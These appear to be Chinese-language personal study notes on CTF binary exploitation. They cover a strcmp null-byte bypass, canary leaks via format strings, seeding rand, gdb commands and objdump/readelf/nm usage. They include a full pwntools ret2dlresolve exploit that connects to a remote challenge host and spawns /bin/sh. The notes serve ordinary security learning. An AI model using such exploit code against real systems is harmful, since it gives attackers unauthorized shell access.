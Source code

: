# 解题相关
1、strcmp函数遇到 ‘\0’会直接终止判断，所以对于题目中的该函数可以使用这种方法绕过
2、绕过canary可以通过格式化字符串漏洞来爆破出canary的值方式
3、srand函数为设置随机数种子的函数，在某些会产生随机数的题目在中，可以尝试使用覆盖随机数种子，然后使用给定的libc函数去调用随机数种子，以获得确定的随机数（看exp相关的2）

# 调试相关
1、gdb当中，可以使用set指令设置某个内存的内容 
x/5i 0x12345678 查看某个地址的汇编代码
加上l选项 就可以加上行号
# exp相关
1、对于python3中16进制地址的获取和转化，可以通过以下代码来进行
```
canary = p.recv(16)
canary = canary.strip().decode()
canary = int(canary, 16)
```
2、如何使用libc中的函数（随机数为例子） 
```
from ctypes import * 
libc = cdll.LoadLibrary('libc.so.6') 
rand = libc.rand()
``` 
3、对于32位的dl_runtime_resolve题目，可以通过以下工具
```
from pwn import *
context.log_level = 'debug'
context.binary = elf = ELF('./pwn-200')

offset = 112
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=["/bin/sh"])
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
io = remote("61.147.171.105",52497)
io.recvuntil("\n")
payload = flat({offset:raw_rop, 256:dlresolve.payload})
io.sendline(payload)
io.interactive()
```
# 工具相关
1、查看二进制程序的相关信息
objdump -h SimpleSection.o（-x会有更多信息）
查看内部结构
readelf -S ./elf
查看内部结构
objdump -s -j .plt/.dynsym/.dynstr/.rel.plt ./elf (-s参数可以将内容以十六进制打印)
查看相关地址
size ./xxx.o
查看elf文件的代码段，数据段和bss段的长度
objdump -s -d xxx.o
查看各个段的内容，-d参数可以将所有包含指令的段反汇编
readelf -h SimpleSection.o
查看ELF文件
readelf -S SimpleSection.o
查看SimpleSection的段表结构
objdump的使用方法
```
-f 显示文件头信息
-D 反汇编所有section (-d反汇编特定section)
-h 显示目标文件各个section的头部摘要信息
-x 显示所有可用的头信息，包括符号表、重定位入口。-x 等价于 -a -f -h -r -t 同时指定。
-i 显示对于 -b 或者 -m 选项可用的架构和目标格式列表。
-r 显示文件的重定位入口。如果和-d或者-D一起使用，重定位部分以反汇编后的格式显示出来。
-R 显示文件的动态重定位入口，仅仅对于动态目标文件有意义，比如某些共享库。
-S 尽可能反汇编出源代码，尤其当编译的时候指定了-g这种调试参数时，效果比较明显。隐含了-d参数。
-t 显示文件的符号表入口。类似于nm -s提供的信息*
```
2、nm SimpleSection.o
查看符号结果
![91c50c00fdcccee52c2d613a4ac62d60.png](../_resources/91c50c00fdcccee52c2d613a4ac62d60-1.png)
3、c++filt \_ZN1N1C4funcEi用来解析被修饰过的名称
![b350f8716ae72459b08240a5471f8a1b.png](../_resources/b350f8716ae72459b08240a5471f8a1b-1.png)